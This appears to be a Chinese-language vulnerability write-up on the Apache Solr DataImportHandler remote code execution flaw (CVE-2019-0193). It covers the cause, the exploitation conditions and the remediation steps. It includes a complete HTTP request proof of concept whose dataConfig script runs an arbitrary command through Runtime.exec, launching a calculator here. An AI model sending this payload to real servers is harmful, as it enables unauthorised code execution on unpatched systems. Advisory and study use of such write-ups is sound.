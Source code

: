 ### 一 漏洞描述
Apache solr 远程命令执行漏洞（CVE-2019-0193）

Apache Solr 是一个开源的搜索服务器。  
Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。  
此次漏洞出现在Apache Solr的DataImportHandler（数据导入处理程序），该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。

该模块的配置信息 "DIH配置"(DIH configuration) 可使用以下的方式指定:  
Server端 - 通过Server的“配置文件“来指定配置信息"DIH配置"  
web请求 - 使用web请求中的dataConfig参数(该参数用户可控）来指定配置信息"DIH配置"（整个DIH配置可以来自请求的“dataConfig”参数）  

Apache Solr如果启用了DataImportHandler模块，因为它支持使用web请求来指定配置信息"DIH配置" ，攻击者可构造HTTP请求指定dataConfig参数的值(dataConfig内容)，dataConfig内容完全可控(多种利用方式)。
由于DIH配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行。

### 二 漏洞利用
DIH配置中，配置从外部数据源中获取数据之后，需要配置数据格式转换。  
构造包含脚本的配置信息， 当Web后端处理该请求时，会使用“脚本转换器“(ScriptTransformer)对“脚本“进行解析，而Web后端未对脚本内容做任何限制(可以导入并使用任意的Java类，如执行命令的类)，导致可以执行任意代码。  
利用条件：  
1 启用了模块DataImportHandler(默认情况下该模块不会被启用)  
2 Solr Admin UI未开启鉴权认证  
```
POST /solr/tika/dataimport HTTP/1.1
Host: solr.com:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://solr.com:8983/solr/
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 585
Connection: close
 
command=full-import&verbose=false&clean=false&commit=false&debug=true&core=tika&name=dataimport&dataConfig=
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```
![img.png](img.png)

### 三 漏洞修复
1 关闭Solr的DataImportHandler  
2 添加Admin UI 认证
3 升级

> 参考链接: https://blog.csdn.net/whatday/article/details/106959989/
